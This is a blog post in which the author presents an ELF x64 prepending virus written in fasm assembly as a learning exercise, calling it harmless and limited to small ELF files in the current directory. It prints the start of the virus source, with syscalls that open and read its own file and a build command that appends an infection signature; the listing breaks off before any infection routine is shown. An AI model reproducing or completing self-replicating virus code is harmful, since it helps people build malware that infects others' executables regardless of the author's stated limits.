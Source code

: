 ```yaml
---
layout: post
title: "ELF x64 Virus in fasm assembly"
date: 2022-10-16T12:47:18+02:00
tags: ["assembly", "viruses"]
---
```


Recently, I was playing around with [flat assembler](https://flatassembler.net/) and i needed something to
write in it. I tried ["Hello world" program](https://en.wikipedia.org/wiki/%22Hello,_World!%22_program) but it was not
enough. I believe that generally "Hello world" programs are not a good way to learn about details of a programming 
language, especially for somewhat experienced programmers.

So I wrote a virus to familiarize myself to it. Because it is compact and has a everything from condition 
control flows to loop constructs, not just printing out in standard output and it only took me couple of hours to write it. 

The virus is a harmless prepending virus which copies itself to the top of the infected program and infected program does 
absolutley nothing harmful except printing a message that it is infected.
The virus only infects [ELF](https://en.wikipedia.org/wiki/Executable_and_Linkable_Format) 
files which are present in current directory (not subdirectories) and smaller than 4KB in size to prevent any potential misuse.

      

**CODE: virus.asm**
```nasm
; Written by Furqan
;
; The virus can be assembled with only Fasm.x64 and
; make sure to append virus signature
; compilation:
;   fasm.x64 virus.asm && printf "\x7e\x49\x4e\x46\x7e" >> virus
;

format ELF64 executable 3

segment readable executable
@@:
    sub rsp, 2000

    mov rax, 0x2
    mov rdi, [rsp+2008]
    xor rsi, rsi
    xor rdx, rdx
    syscall

    mov r9, rax

    mov rax, 0x0
    mov rdi, r9
    mov rsi, self
    mov rdx, self_size
    syscall

    mov rax, 0x8
    mov rdi, r9
    mov rsi, vsignl
    mov rdx, 0x1
    syscall
```
